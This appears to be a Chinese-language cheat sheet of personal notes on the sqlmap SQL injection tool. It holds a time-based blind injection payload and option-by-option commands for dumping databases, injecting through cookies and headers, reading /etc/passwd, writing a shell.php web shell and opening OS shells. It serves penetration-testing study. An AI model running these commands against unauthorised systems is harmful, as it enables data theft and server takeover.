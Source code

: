 ### SQLMAP自动注入

> #### 五种漏洞检测技术  
> 
> * 基于布尔的盲注检测
> * 基于时间的盲注检测
> 	* ' and (select * from (select (sleep(20)))a) -- +
> * 基于错误的检测
> * 基于UNIONl联合查询的检测
> 	* 适用于通过for循环直接输出联合查询结果,否则只显示第一项结果
> * 基于堆叠查询的检测
> 	* ;堆叠多个查询语句
> 	* 适用于非select的数据修改,删除的操作

#### 参数
> * `-u url`, 指定url参数,其中必须要包含可注入的parameter
> * `-p param`, 可以指定只对固定的param进行SQL注入的检测
> * `-f`, 指纹检测, 可以检测出mysql版本等
> * `-D database`, 配合`--tables`检测当前database的表
> * `--dump -D database -T table`, 检测database数据库中的table表的所有数据
> * `--users`, 获取数据库用户
> * `--banner`, 提供数据库的banner信息,包括版本等
> * `--dbs`, 获取所有的数据库
> * `--schema`, 获得所有的元数据(各个数据库的表, 表的字段等)
> * `--tables`, 获得所有的表
> * `--columns`, 获得所有的列
> * `-a`, 获得所有能查到的数据(-all)
> * `-d 'mysql://user:password@127.0.0.0/database'`, 直连数据库
> * `-m file.txt`, 可以读取file中的多个url
> * `-g " inurl:\".php?id=1\" "`, 用google搜索结果
> 
> #### POST方法
> * 使用http请求文件(burpsuite)  =>  `sqlmap -r request.txt`
> * 使用burpsuite log文件  =>  `sqlmap -l log.txt`

> #### HTTPS
> * `sqlmap -u "https://1.1.1.1/a.php?a=1:8843" --force-ssl`

> #### 数据段 `--data`
> * get / post 都适用
> `sqlmap.py -u "http://172.16.203.135/mutillidae/index.php?page=home.php" --data="username=1000&password=1&login-php-submit-button=Login" --dbs`

> #### 变量分隔符 `--param-del`
> * `sqlmap -u url --data "q=foo:id=1" --param-del=":" -f `

> #### Cookie头 `--cookie`
> * web应用需要基于cookie的身份验证
> * 检查cookie头中的注入需要level >= 2 (--level 2 ;一共1-5级)
> *  Set-Cookie / --drop-set-cookie / --cookie-del
> * `sqlmap -u url --cookie="a=1;b=2" -f`

> #### User-Agent
> * --user-agent => 默认为: `sqlmap/1.0-dev-xxxxxxxx [http://sqlmap.org]`
> * 可以使用 ` --random-agent `随机从 `sqlmap/txt/user-agents.txt` 字典中选取user-agent
> * sqlmap检查user-agent中的注入点:Level >= 3
> * APP/WAF/IPS/IDS 过滤异常 user-agent 时报错 `[ERROR] the target URL responsed with an unknown HTTP status code, try to force the User-Agent Header with option --user-agent or --random-agent`

> #### Host头
> * `--host` , level = 5 才会被检测注入

> #### Referer头
> * `--referer`, level >= 3 才会被检测注入

> #### 额外的Header
> * `--headers`, 每个头单独一行(名称区分大小写)
> * `sqlmap -u url --headers="Host:www.a.com\nUser-Agent:aaaaa"`

> #### --method
> * `--method=GET/POST`

> #### 读\写文件
> * `--file-read="/etc/passwd"`
> * `--file-write="shell.php" --file-dest="/tmp/shell.php"`

> #### OS
> * `--os-cmd`
> * `--os-shell`
> * `--sql-shell`




